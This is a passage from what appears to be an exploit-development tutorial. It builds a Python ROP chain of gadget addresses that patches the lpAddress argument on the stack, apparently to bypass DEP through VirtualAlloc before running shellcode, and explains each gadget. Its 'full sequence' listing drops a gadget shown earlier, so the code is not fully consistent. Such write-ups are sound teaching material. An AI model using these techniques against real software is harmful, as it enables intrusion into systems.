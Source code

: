 ```python
    #[--Patching lpAddress--]
    rop += pack('<L', 0x10129afb)    # mov eax, edx ; 
    rop += pack('<L', 0x10154336)    # pop ebp ; ret ;
    rop += pack('<L', 0xffffff38)    # -0n200 (temporary)
    rop += pack('<L', 0x100cdc7a)    # xchg eax, ebp ; ret  ;
    rop += pack('<L', 0x100fcd71)    # add eax, ebp ; dec ecx ; ret ;
    rop += pack('<L', 0x1012d24e)    # mov [edx], eax ; ret ; 
```

The first step we take is move the value from `EDX` our current working stack pointer into `EAX`, as previously said, arithmetic operations just flow better in and out of `EAX` and `ECX` but other registers would work fine to. Once we've moved this value into `EAX`, we then `pop ebp` with an arbitrary value of `-200`. This is an important step and one we will revisit before we execute our payload for the final time. This is an arbitrary number that will be calculated after we run our script and find exactly how far shellcode sits away from the stack. Once that is complete we perform some operations on the values in `EAX` and `EBP` by performing an `ADD` instruction:  `add eax, ebp ; dec ecx ; ret ;`. Then after that we perform `mov [edx], eax; ret;`. This instruction moves the data in the `EAX` register to the memory location pointed to by the `EDX` register (which will patch the `0x61616161` on the stack). This gadget was simple reuse from the previous section and we can begin to see that once the chain begins to form we can reuse and repurpose previously used gadgets. 

<img src="/images/VA_8.png" alt=""> 

Once we've patched the shellcode return address we can now focus on the `lpAddress`. First let's increment `EDX` by `4` again to move along the stack and keep it aligned:

```python    
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ;
```

Now the hard work was already, the value in `EAX` hasn't changed and all we need to do is patch this argument on the stack at this location. So we reuse the previously used gadget : `mov [edx], eax; ret;` to point the value in `EAX` to the memory location pointed to by the `EDX` register.

The full sequence looks like this:
```python
    #[--Patching lpAddress--]
    rop += pack('<L', 0x10129afb)    # mov eax, edx ;
    rop += pack('<L', 0x10154336)    # pop ebp ; ret ;
    rop += pack('<L', 0xffffff38)    # -0n200 (temporary)
    rop += pack('<L', 0x100fcd71)    # add eax, ebp ; dec ecx ; ret ;
    rop += pack('<L', 0x1012d24e)    # mov [edx], eax ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ; 
    rop += pack('<L', 0x100bb1f4)    # inc edx ; ret ;
    rop += pack('<L', 0x1012d24e)    # mov [edx], eax ; ret ; 
```

<img src="/images/VA_9.png" alt=""> 
